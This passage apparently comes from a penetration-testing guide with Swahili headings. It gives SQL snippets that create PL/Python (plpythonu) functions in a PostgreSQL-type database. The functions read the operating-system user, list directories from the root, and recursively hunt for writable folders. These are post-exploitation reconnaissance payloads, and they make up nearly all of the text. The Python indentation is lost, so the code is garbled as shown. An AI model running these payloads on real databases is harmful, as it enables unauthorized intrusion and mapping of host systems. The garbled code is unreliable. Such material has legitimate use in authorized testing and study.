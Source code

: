 {% tab title="Pata mtumiaji wa OS" %}
```sql
CREATE OR REPLACE FUNCTION get_user (pkg text)
RETURNS VARCHAR(65535) stable
AS $$
import os
return os.getlogin()
$$
LANGUAGE 'plpythonu';

SELECT get_user(""); #Get user, para is useless
```
{% endtab %}

{% tab title="Orodha ya saraka" %}
```sql
CREATE OR REPLACE FUNCTION lsdir (dir text)
RETURNS VARCHAR(65535) stable
AS $$
import json
from os import walk
files = next(walk(dir), (None, None, []))
return json.dumps({"root": files[0], "dirs": files[1], "files": files[2]})[:65535]
$$
LANGUAGE 'plpythonu';

SELECT lsdir("/"); #List dir
```
{% endtab %}

{% tab title="Pata W folda" %}
```sql
CREATE OR REPLACE FUNCTION findw (dir text)
RETURNS VARCHAR(65535) stable
AS $$
import os
def my_find(path):
writables = []
def find_writable(path):
if not os.path.isdir(path):
return
if os.access(path, os.W_OK):
writables.append(path)
if not os.listdir(path):
return
else:
for item in os.listdir(path):
find_writable(os.path.join(path, item))
find_writable(path)
return writables

return ", ".join(my_find(dir))
$$
LANGUAGE 'plpythonu';

SELECT findw("/"); #Find Writable folders from a folder (recursively)
```
{% endtab %}
